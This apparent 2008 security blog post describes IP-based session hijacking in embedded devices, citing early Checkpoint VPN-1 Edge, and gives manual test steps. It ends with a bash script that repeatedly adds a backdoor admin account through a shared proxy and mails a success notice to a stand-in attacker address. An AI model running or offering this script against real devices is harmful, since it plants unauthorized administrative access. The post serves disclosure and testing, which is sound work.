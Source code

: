 ```yaml
---
title: Holes In Embedded Devices - IP-based session management
author: adrian-pastor
date: Tue, 29 Jan 2008 10:39:22 GMT
template: this/views/post.jade
category: fucked
---
```


Devices that implement IP address-based session management follow the algorithm described by the pseudocode shown below:

    if (submitted username and submitted password) == (credentials on device config)
    then
        do white-list user's source IP address
    

    The implications are obvious: devices located in environments in which different users share the same proxy are vulnerable to administrative session hijacking attacks. Please note that this session hijacking attack has nothing to do with the classic TCP hijacking attack in which sequence numbers are predicted by the attacker. Therefore, attacking a device susceptible to a "IP address-based session management" vulnerability does not require the attacker to intercept/sniff the traffic between the victim admin user and the target device. Rather, this attack performs session hijacking at the _HTTP application layer_ by providing the piece of information that is used by the target device to "know" who has access to authenticated resources on the web console: a trusted source IP address in this case.

    As an example, let's consider a corporate environment in which hundreds of users share the same proxy while browsing the web. Now, let's imagine that the administrator of the vulnerable device never checked the _bypass proxy server for local addresses_ option on his/her web browser. In other words, the administrator usually configures the vulnerable device via a proxy which is used by everyone else in the network.

    The result is that any malicious user using the same proxy as the administrator of the target device, can gain full administrative access via the web console by simply adding the device's IP address on the browser's address bar. Of course this attack would be more realistic by automating the process of hijacking the admin session on the web console and performing a malicious/interesting operation. i.e: backdoor the device by adding a new administrative account.

    Early versions of Checkpoint VPN-1 Edge, suffer from this vulnerability. As any other webapp pentester I started analyzing HTTP requests after logging in to the web console of this appliance. I quickly realized that no session IDs had been assigned to my HTTP session, neither was my browser submitting my username and password via common methods such as HTTP basic authentication. There was nothing being sent by my browser that would tell the VPN-1 Edge appliance that I was supposed to have access to the administrative functionalities. This led me to suspect that the appliance was simply trusting my IP address while the session hadn't yet timed out. So I simply performed the following checks which in order to test the potential "IP address-based session management" vulnerability:

1.  Opened a completely different browser rather than a new tab or window of the same browser. i.e.: Opera rather than Firefox
2.  Entered the URL of an administrative menu (i.e.: `http://192.168.10.1/network_settings.cgi`) on Opera and checked if I had access to it

    > Note: in the previous example, both Firefox and Opera were connecting via the same proxy, thus submitting HTTP requests to the VPN-1 appliance from the same source IP address.

    Since the firewall kindly offered me all the administrative functionalities which allowed me to change settings, it was obvious that the device was vulnerable.

    However, at this point I needed to make sure that other IP addresses other than my current one could not access the admin features while the session was considered active (if this was possible the issue would be even more severe). Therefore I simply removed the proxy settings from my browser and tried accessing a URL that would return an administrative page on the device. Accessing the firewall's web console from a different IP address - in this case the one assigned to my workstation - did _not_ work. Therefore, it could be concluded that while the administrative session is considered active by the firewall (i.e.: has not timed out yet), the firewall simply trusts HTTP requests that come from the IP address that has been white-listed.

    Provided that the VPN-1 appliance had also trusted other source IP addresses, while the admin session was active, then the appliance would suffer from a binary state session management vulnerability which will be explained in my following post. Feel free to use the aforementioned test steps to test your appliance. I've seen several devices affected by this issue, so developers of embedded software and security researchers are recommended to add this vulnerability type to their security testing checklist!

    An aspect that is important to mention regarding "IP-based session management" holes is weather or not the affected device implements an idle session timeout period. In case a session timeout mechanism is implemented, the timeout period (i.e.: 10 minutes) matters a lot, as it defines the window of opportunity to launch a session hijacking attack.

    A possible technique that can be used to exploit short timeout periods consists of writing a script that attempts to perform a configuration change on the vulnerable device every X minutes, where X is smaller than the idle session timeout period of the vulnerable device.

    The following is a hypothetical bash script that would attempt to add a new account on the vulnerable device every 5 seconds:

    #!/bin/bash

    target="192.168.10.1";
    email="attacker@evil-domain.foo"

    while true
    do
        if curl -s -x sharedproxy.company.foo:3128 -d "operation=addaccount&usr=hax0r&pwd=s3cr3tP455" $target | grep "account added successfully" > /dev/null
        then
            // log successful pwnage!!
            mail $email -s "backdoor account added successfully"
            exit 1
        fi
        sleep 5
    done

_Enjoy playing with IP-based session hijacking attacks! As you can see they are trivial to launch once the attacker has enough details of the vulnerable device._
